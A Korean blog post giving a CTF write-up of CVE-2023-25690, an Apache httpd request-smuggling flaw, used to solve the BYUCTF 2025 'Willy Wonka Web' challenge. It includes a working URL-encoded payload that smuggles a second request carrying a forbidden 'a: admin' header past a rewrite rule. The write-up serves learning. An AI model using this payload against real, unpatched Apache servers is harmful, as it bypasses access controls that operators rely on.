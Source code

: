 ```yaml
---
layout: post
title: "CVE-2023-25690"
summary: "Apache http 웹서버 Smuggling 요청 취약점"
author: eveheeero
date: '2025-05-18 23:27:00 +0900'
category: ['etc', 'learning']
tags: cve
thumbnail: /assets/img/posts/2025-05-18-4.png
keywords: ctf, cve, vulnerability
usemathjax: false
permalink: /blog/CVE-2023-25690/
---
```



## 배경

BYUCTF 2025 웹해킹 Willy Wonka Web 문제 풀이입니다.

## 요약

![요약 ppt 이미지지](/assets/img/posts/2025-05-18-4.png){: style="max-width: 100%; height: auto;"}

- `apache http`가 URL 인코딩 된 띄워쓰기를 인식하지 못해, `GET`이나 `POST`등의 메소드가 오고 난 뒤 `다음 띄워쓰기가 올 때까지의 모든 문자`를 경로로 인식하던 취약점

## 문제 상황

![Backend](/assets/img/posts/2025-05-18-3.png){: style="max-width: 100%; height: auto;"}

![apache http 설정정](/assets/img/posts/2025-05-18-2.png){: style="max-width: 100%; height: auto;"}

요청 헤더에 `a`값이 오면 플래그를 출력하는 문제지만, `apache http 서버`의 `RewriteEngine`, `RewriteRule`를 이용해 `a`헤더를 `unset`하고 있었습니다.

`점수 - 241점, 푼 팀 - 191/894팀`

## 분석 과정

관련 CVE 내용을 확인해보니 `apache httpd 2.4.55`버전까지 `HTTP`메소드 이후 캐리지 리턴이 올 때까지 전부 하나의 경로로 인식한다는 내용이 있었습니다.

원하는 요청은 다음과 같았습니다.

```text
GET /name/anything HTTP/1.1
Host: 127.0.0.1
a: admin


```

해당 요청 `GET` 이후 부분을 전부 `UrlEncoding`하여 진행했으나 내부 오류가 계속 났었습니다.

' ' 및 '\r\n'만을 `UrlEncoding`하니 정상적으로 실행되었습니다.

두개 요청을 합쳐야 해서 다음처럼 요청을 보냈습니다.

```text
GET /name/anything HTTP/1.1
Host: 127.0.0.1
a: admin


GET /name/anything HTTP/1.1


```

이를 두번째 쿼리 `HTTP/1.1` 부분 앞까지 `%20`, `%0d`, `%0a`로 치환하여 다음처럼 쿼리가 나왔고

```text
GET /name/anything%20HTTP/1.1%0d%0aa:%20admin%0d%0a%0d%0aGET%20/anything HTTP/1.1


```

위 코드는 `apache http 웹서버`에서 헤더가 하나도 없는 `/name...anything` 경로를 가진 `GET`요청으로 처리가 될 것이며, 백엔드에서는 `a: admin`헤더를 가진 요청, 헤더 없는 요청, 총 두개로 처리가 됩니다.

![공격 성공 이미지](/assets/img/posts/2025-05-18-5.png){: style="max-width: 100%; height: auto;"}

다음처럼 코드 실행해 공격 성공했습니다.

## 작성자의 글

- `Smuggling` 공격 실습을 해보아 재밌었습니다.
- 소켓 관련 내용을 다루느라 힘들었습니다. 관련 툴을 미리 제작해둬야겠습니다.

## 참조

- [dhmosfunk/CVE-2023-25690-POC](https://github.com/dhmosfunk/CVE-2023-25690-POC)
